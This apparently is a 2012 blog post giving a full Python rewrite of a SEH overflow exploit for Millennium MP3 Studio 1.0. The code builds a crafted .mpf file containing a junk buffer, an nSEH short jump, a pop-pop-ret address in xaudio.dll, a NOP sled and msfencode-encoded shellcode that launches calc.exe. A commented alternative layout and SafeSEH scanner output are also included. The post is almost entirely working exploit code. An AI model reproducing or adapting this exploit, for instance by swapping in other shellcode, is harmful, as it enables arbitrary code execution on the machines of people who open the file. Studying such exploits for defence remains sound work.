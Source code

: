 Millennium MP3 Studio .mpf File Parsing SEH Overflow
====================================================
date: 02/Sep/2012
summary: Millenium MP3 Studio SEH overflow via a pop-pop-return overwrite.
tags: code, exploit

The Millennium MP3 Studio version 1.0 is prone to a SEH overflow vulnerability. Processing specially-crafted `.mpf` files could trigger a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 9298](http://www.exploit-db.com/exploits/9298/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb9298.mpf"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

# 50B jump to avoid CSEH and a 4B hole @ 0012F930
# jumps directly from nseh to nop sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909032EB)# short jump 50B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*80

'''
# 8B jump to avoid CSEH and land in the first NOP sled of 12B
# another 8B jump from there to avoid a 4B hole @ 0012F930 and land in the final NOP sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909008EB)# short jump 8B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*12
jump = pack ('<I', 0x909008EB)# short jump 8B
nops2 = "\x90"*40
'''

sploit = junk+nseh+cseh+nops+calc

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"

'''
/SafeSEH Module Scanner, item 30
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10044000
 Module version=3, 0, 7, 0
 Module Name=xaudio.dll
'''
```
